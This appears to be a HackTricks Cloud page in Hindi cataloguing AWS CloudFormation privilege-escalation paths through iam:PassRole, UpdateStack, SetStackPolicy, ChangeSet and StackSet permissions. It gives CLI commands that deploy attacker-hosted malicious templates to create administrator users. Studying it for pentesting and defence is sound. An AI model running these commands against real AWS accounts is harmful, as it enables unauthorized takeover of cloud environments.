 # AWS - Cloudformation Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## cloudformation

cloudformation के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

**`iam:PassRole`** और **`cloudformation:CreateStack`** अनुमतियों वाला हमलावर **CloudFormation टेम्पलेट बनाकर विशेषाधिकार बढ़ा सकता है** जो क्रियाएं करेगा और संसाधन बनाएगा उस भूमिका की अनुमतियों का उपयोग करते हुए जो CloudFormation स्टैक बनाते समय पास की गई थी।
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
जहां हमलावर की वेबसाइट पर स्थित टेम्प्लेट में **दुर्भावनापूर्ण क्रियाओं को करने के निर्देश होते हैं, जैसे कि एक प्रशासक उपयोगकर्ता बनाना** और फिर उन साखों का उपयोग करके अपनी पहुँच बढ़ाना।

निम्नलिखित पृष्ठ पर आपके पास अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** के साथ एक **उपयोग का उदाहरण** है:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**संभावित प्रभाव:** निर्दिष्ट cloudformation सेवा भूमिका के लिए Privesc।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप **मौजूदा cloudformation स्टैक का दुरुपयोग कर सकते हैं** ताकि इसे अपडेट करें और पिछले परिदृश्य की तरह विशेषाधिकार बढ़ा सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `UpdateStack` अनुमति दे सकते हैं** एक स्टैक पर और हमला कर सकते हैं।

**संभावित प्रभाव:** cloudformation सेवा भूमिका के लिए Privesc निर्दिष्ट।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं** है, तो आप अभी भी **स्टैक्स को अपडेट कर सकते हैं** और पहले से जुड़े **IAM भूमिकाओं का दुरुपयोग कर सकते हैं**। पिछले अनुभाग को देखें उदाहरण के लिए (बस अपडेट में कोई भूमिका न दिखाएं)।

`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `UpdateStack` अनुमति दे सकते हैं** एक स्टैक पर और हमला कर सकते हैं।

**संभावित प्रभाव:** पहले से जुड़े cloudformation सेवा भूमिका के लिए Privesc।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास अनुमति है **एक भूमिका पास करने और ChangeSet बनाने व निष्पादित करने की** वह **नया cloudformation स्टैक बना/अपडेट कर सकता है और cloudformation सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित हमला एक **विविधता है**[ **CreateStack का**](./#iam-passrole-cloudformation-createstack) **ChangeSet अनुमतियों** का उपयोग करके स्टैक बनाने की।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग **आपको `ChangeSet` अनुमतियां प्रदान करने** के लिए किया जा सकता है और हमला करने के लिए।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं के लिए Privesc।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछली विधि की तरह है बिना **IAM भूमिकाओं** को पास किए, इसलिए आप सिर्फ **पहले से जुड़ी हुई भूमिकाओं का दुरुपयोग कर सकते हैं**, बस पैरामीटर में संशोधन करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** cloudformation सेवा भूमिका तक प्रिवेस्क पहले से ही संलग्न है।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग कर सकता है ताकि StackSets बनाए/अपडेट कर सके और मनमाने cloudformation भूमिकाओं का दुरुपयोग कर सके।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं तक प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग कर सकता है बिना passRole अनुमति के StackSets को अपडेट करने के लिए और संलग्न cloudformation भूमिकाओं का दुरुपयोग कर सके।

**संभावित प्रभाव:** संलग्न cloudformation भूमिकाओं तक प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो करें** [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
